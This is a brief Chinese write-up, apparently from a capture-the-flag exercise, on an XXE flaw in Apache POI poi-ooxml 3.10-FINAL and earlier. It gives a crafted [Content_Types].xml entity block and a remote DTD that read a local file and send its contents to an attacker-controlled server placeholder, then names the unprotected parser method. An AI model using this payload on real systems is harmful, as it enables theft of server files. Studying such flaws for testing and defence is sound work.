 #### 影响范围

poi-ooxml-3.10-FINAL.jar及以下版本

#### 利用方式

我们就需要构造恶意的excel-111.xlsx文件

首先，新建一个xlsx文件，然后解压之后在[Content_Types].xml中的第二行添加

```java
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % remote SYSTEM "http://服务器ip/1.dtd">
%remote;
%all;
]>
<root>&send;</root>
```

然后压缩为excel-111.xlsx文件并且在vps上面开启一个http服务,新建一个1.dtd外部实体

```java
<!ENTITY % all "<!ENTITY send SYSTEM 'http://服务器ip:监听端口/%file;'>">
```

之后监听

#### 原理

`poi-ooxml` 包里  `org.apache.poi.openxml4j.opc.internal.ContentTypeManager#parseContentTypesFile` 中读取  `[Content-Types].xml` 时没有进行 XXE 防护
